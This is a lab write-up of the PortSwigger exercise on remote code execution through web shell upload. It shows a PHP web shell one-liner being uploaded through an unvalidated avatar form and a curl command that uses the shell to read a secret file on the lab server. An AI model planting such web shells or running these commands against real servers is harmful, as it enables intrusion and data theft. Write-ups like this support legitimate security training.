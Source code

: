 # Remote code execution via web shell upload | Dec 16, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload), you'll learn: Remote code execution via web shell upload! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215234741.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215234759.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215234806.png)

**In the lab's background, it said:**

> This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

Now, If the application doesn't do any validation on user's file upload, an attack could upload a web shell to the web server's filesystem!

**But before we do that, let's upload a normal file, and intercept the request via Burp Suite:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235217.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235323.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235345.png)

As you can see, when we clicked the `Upload` button, **a POST request will be sent to `/my-account/avatar`, with parameters `name`, `user`, `csrf`.**

**Let's forward that request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235604.png)

It tells us the file has been uploaded, and **where does the file lives: `avatars/<filename>`.**

**Also, when we can go to the `My account` page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235744.png)

**We can see the image file. Let's open that in new tab:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235817.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221215235830.png)

Now we know **the exact location of the uploaded file: `/files/avatars/test.jpg`.**

**Armed with above information, we can try to upload some PHP web shells!**

**Payload:**
```php
<?php system($_GET['cmd']); ?>
```

This PHP web shell one-liner will execute any commands when we provide a GET parameter `cmd`.

**E.g: `webshell.php?cmd=id`**

**Now, let's upload that to the web application!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221216000504.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221216000517.png)

**Nice! Let's go to `/files/avatars/webshell.php?cmd=id`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1/images/Pasted%20image%2020221216000611.png)

**We now have Remote Code Execution(RCE)! Let's `cat` the `secret` file!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-1]
└─# curl https://0af000a203c4eff4c8e0246f00830085.web-security-academy.net/files/avatars/webshell.php --get --data-urlencode "cmd=cat /home/carlos/secret"
yD3sebCja8SUTL8vy9XAIeKVHT5eWoc1
```

# What we've learned:

1. Remote code execution via web shell upload